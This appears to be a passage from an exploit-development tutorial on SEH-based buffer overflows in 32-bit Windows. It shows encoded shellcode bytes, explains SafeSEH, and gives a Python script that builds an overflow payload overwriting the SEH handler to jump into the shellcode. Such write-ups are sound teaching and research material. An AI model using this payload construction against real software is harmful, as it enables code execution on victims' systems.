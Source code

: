 ```python
shellcode += b"\x31\x4d\x53\x5a\x55\x51\x4c\x4d\x4d\x55\x58"
shellcode += b"\x32\x55\x50\x35\x50\x43\x30\x56\x30\x43\x58"
shellcode += b"\x36\x51\x4c\x4b\x42\x4f\x4d\x57\x4b\x4f\x48"
shellcode += b"\x55\x4f\x4b\x4c\x30\x4e\x55\x39\x32\x46\x36"
shellcode += b"\x53\x58\x49\x36\x4d\x45\x4f\x4d\x4d\x4d\x4b"
shellcode += b"\x4f\x49\x45\x47\x4c\x43\x36\x33\x4c\x54\x4a"
shellcode += b"\x4b\x30\x4b\x4b\x4d\x30\x53\x45\x43\x35\x4f"
shellcode += b"\x4b\x57\x37\x54\x53\x54\x32\x32\x4f\x53\x5a"
shellcode += b"\x35\x50\x36\x33\x4b\x4f\x4e\x35\x42\x43\x33"
shellcode += b"\x51\x32\x4c\x53\x53\x35\x50\x41\x41"
```

## SafeSEH
---

As explained in [this *Uninformed* article](http://uninformed.org/index.cgi?v=9&a=4&p=7), SafeSEH is a security mechanism introduced with
*Visual Studio 2003*. 
It works by adding a static list of known good exception handlers in the PE file at compile time. 
Before executing and exception handler, it is checked against the table. 
Execution is passed to the handler only if it matches an entry in the table. 

*SafeSEH* only exists in 32 bit applications because 64 bit exception handler are not stored on the stack. 

Most articles I have read mention "bypassing [**SafeSEH**](https://docs.microsoft.com/en-US/cpp/build/reference/safeseh-image-has-safe-exception-handlers?view=msvc-160)"
as the reason for using the POP/POP/RET technique.

In our case, most of the loaded modules, including the main executable where the exception is triggered,
are not compiled with the */SAFESEH* flag. Therefore, one might think that the "*SafeSEH* bypass" is not needed here. 

Let's try pointing the exception handler directly to our shellcode and see what happens. 

```python
shellcode = "..."

payload = "E"*20*4 # Padding used so the shellcode address doesn't contain badchars
payload += shellcode
payload += "A"*(4500 - len(payload))
payload += "BBBB" #nSEH
payload += "\x48\xD2\x19" #SEH (our shellcode is at 0x0019D248)

with open("buf.txt", "w") as inp:
    inp.write(payload)
```

